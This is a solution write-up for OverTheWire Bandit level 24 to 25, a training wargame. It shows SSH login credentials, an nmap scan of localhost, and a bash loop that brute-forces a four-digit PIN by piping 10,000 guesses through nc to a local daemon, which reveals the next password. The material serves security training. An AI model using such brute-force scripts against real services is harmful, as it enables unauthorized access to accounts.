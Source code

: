 # Bandit Level 24 → Level 25

## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

##Solution
Brute Force attack is a cryptographic hack. Also known as an Exhaustive Search, it relies on calculating and submitting every possible password combination with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.

```                                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -p 2220 bandit24@bandit.labs.overthewire.org
```

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

```
bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Linux bandit.otw.local 5.4.8 x86_64 GNU/Linux
```
      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org
```

Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames.
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with
  easily guessable or short names will be periodically deleted!

  Please play nice:

    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS!
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * gef (https://github.com/hugsy/gef) in /usr/local/gef/
    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

```
bandit24@bandit:~$ nmap -p- localhost                             #to check if localhost is listening

Starting Nmap 7.40 ( https://nmap.org ) at 2022-02-11 10:11 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
113/tcp   open  ident
1234/tcp  open  hotline
30000/tcp open  ndmps
30001/tcp open  pago-services1
30002/tcp open  pago-services2
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.53 seconds
```
### Note1: In the challenge it is told that along with the password for bandit24, a 4 digit passcode (obtained using brute-force) should be produced to the localhost through port 30002. So write a script to append the 4 digit passcode with the bandit24 password. This script is written in the file basefile.sh and the final password appended with passcode is redirected to the file combinations.txt.

```
bandit24@bandit:~$ mkdir /tmp/dirbandit24                            #create a directory dirbandit24 under temp

bandit24@bandit:~$ cd /tmp/dirbandit24                               #navigate to dirbandit24

bandit24@bandit:/tmp/dirbandit24$ vim basefile.sh                    #create and open a file named basefile.sh using vim
                                                                     #press i for insert mode in vim
                                                                     #type the below script in it
                                                                     #!/bin/bash
                                                                     #for i in {0000..9999};
                                                                          do
                                                                              echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt
                                                                          done
    
                                                                     #press Esc to get into command mode
                                                                     #run :wq to save and close the vim


bandit24@bandit:/tmp/dirbandit24$ cat basefile.sh                    #read the created file to verify its contents 
#!/bin/bash

for i in {0000..9999};                                                        #generate 0000 to 9999, each digit in each iteration                                                                     
    do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt        #append the generated passcode with bandit24 password and redirect it to the file combinations.txt
    done
    
bandit24@bandit:/tmp/dirbandit24$ chmod +x basefile.sh                 #provide execute permission for basefile.sh

bandit24@bandit:/tmp/dirbandit24$ ./basefile.sh                        #execute the file basefile.sh

bandit24@bandit:/tmp/dirbandit24$ head -n 5 combinations.txt           #to see the first 5 entries of combinations.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
```
### Note2: Send the contents of the file to localhost at port 30002, which inturn will produce the password to the next level when the correct passcode is received. this output is redirected to result.txt file.
```
bandit24@bandit:/tmp/dirbandit24$ cat combinations.txt | nc localhost 30002 >> result.txt   

bandit24@bandit:/tmp/dirbandit24$ sort result.txt | uniq -u            #since there is only one passcode that can provide the password, sort and find the unique output

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

bandit24@bandit:/tmp/dirbandit24$ rm -rf /tmp/dirbandit24              #delete the created directory

bandit24@bandit:/tmp/dirbandit24$ exit                                 #logout of bandit.labs.overthewire.org
logout
Connection to bandit.labs.overthewire.org closed.
```                  
#### vim text editor
```
vim            -> Open vim
vim <fileName> -> Open file using vim or create and open the file with vim
i              -> Switch to insert mode & Enter some text
Esc            -> Switch back to command mode
:w             -> Save changes to file
:q             -> Quit Vim
```
